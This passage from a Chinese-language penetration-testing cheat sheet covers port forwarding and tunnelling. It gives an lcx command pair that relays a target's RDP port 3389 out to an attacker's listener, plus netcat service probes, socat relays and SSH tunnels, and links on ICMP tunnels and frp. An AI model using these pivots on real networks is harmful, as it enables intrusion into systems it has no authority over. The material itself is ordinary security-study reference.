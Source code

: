 - **lcx**
    ```bash
    lcx -slave 111.222.333.444 4567 127.0.0.1 3389  # On the targets
    lcx -listen 4567 33891                          # Attacker
    ```

- **netcat**
    - **tcp 端口连接**
        ```bash
        smtp: nc -nv 192.168.30.35 25 help
        pop3: nc -nv 192.168.30.35 110 user xxx pass xxx
        imap: nc -nv 192.168.30.35 143
        ```

    - **chat**
        ```bash
        nc -nvlp 4444                               # A 主机
        nc -nv 192.168.30.35 4444                   # B 主机
        ```

- **socat**
    ```
    socat TCP-LISTEN:5000,fork,reuseaddr tcp:127.0.0.1:8080
    ```

### 应用层隧道

**ssh**
- [SSH端口转发（本地转发、远程转发、动态转发）](https://www.cnblogs.com/zangfans/p/8848279.html)
- [「端口转发」SSH 隧道](https://ai-sewell.me/2018/%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91-SSH-%E9%9A%A7%E9%81%93/)
```bash
ssh -L 8080:127.0.0.1:80 root@192.168.1.7       # 本地转发
ssh -R 8080:127.0.0.1:80 root@192.168.1.7       # 远程转发
ssh -D 1080 root@sshserver                      # 动态端口转发
```

### 网络层隧道

**ICMP**
- **文章**
     - [ICMP隐蔽隧道从入门到精通](https://www.anquanke.com/post/id/152046)

### 代理

**相关文章**
- [谈谈我所了解的WEB代理](https://www.freebuf.com/articles/web/181723.html)

**相关利用案例**
- [代理配置不当](../Web安全/Web常见漏洞.md#代理配置不当)

**反向代理**
- [frp](https://github.com/fatedier/frp)
    - [frp安装](../../../../运维/Linux/Power-Linux.md#frp)

---